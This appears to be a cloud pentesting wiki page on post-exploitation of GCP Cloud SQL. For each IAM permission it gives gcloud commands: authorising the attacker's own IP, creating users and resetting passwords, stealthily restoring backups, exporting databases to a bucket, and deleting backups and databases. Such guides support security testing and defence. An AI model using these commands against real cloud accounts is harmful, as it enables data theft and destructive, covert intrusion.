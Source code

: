# GCP - Cloud SQL Post Exploitation

## Cloud SQL

For more information about Cloud SQL check:

[[../gcp-services/gcp-cloud-sql-enum.md]]

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

To connect to the databases you **just need access to the database port** and know the **username** and **password**, there isn't any IAM requirements. So, an easy way to get access, supposing that the database has a public IP address, is to update the allowed networks and **allow your own IP address to access it**.

```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
    --authorized-networks "$(curl ifconfig.me)" \
    --assign-ip \
    --quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```

It's also possible to use **`--no-backup`** to **disrupt the backups** of the database.

As these are the requirements I'm not completely sure what are the permissions **`cloudsql.instances.connect`** and **`cloudsql.instances.login`** for. If you know it send a PR!

### `cloudsql.users.list`

Get a **list of all the users** of the database:

```bash
gcloud sql users list --instance <intance-name>
```

### `cloudsql.users.create`

This permission allows to **create a new user inside** the database:

```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```

### `cloudsql.users.update`

This permission allows to **update user inside** the database. For example, you could change its password:

```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups might contain **old sensitive information**, so it's interesting to check them.\
**Restore a backup** inside a database:

```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```

To do it in a more stealth way it's recommended to create a new SQL instance and recover the data there instead of in the currently running databases.

### `cloudsql.backupRuns.delete`

This permission allow to delete backups:

```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```

### `cloudsql.instances.export`, `storage.objects.create`

**Export a database** to a Cloud Storage Bucket so you can access it from there:

```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```

### `cloudsql.instances.import`, `storage.objects.get`

**Import a database** (overwrite) from a Cloud Storage Bucket:

```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```

### `cloudsql.databases.delete`

Delete a database from the db instance:

```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```

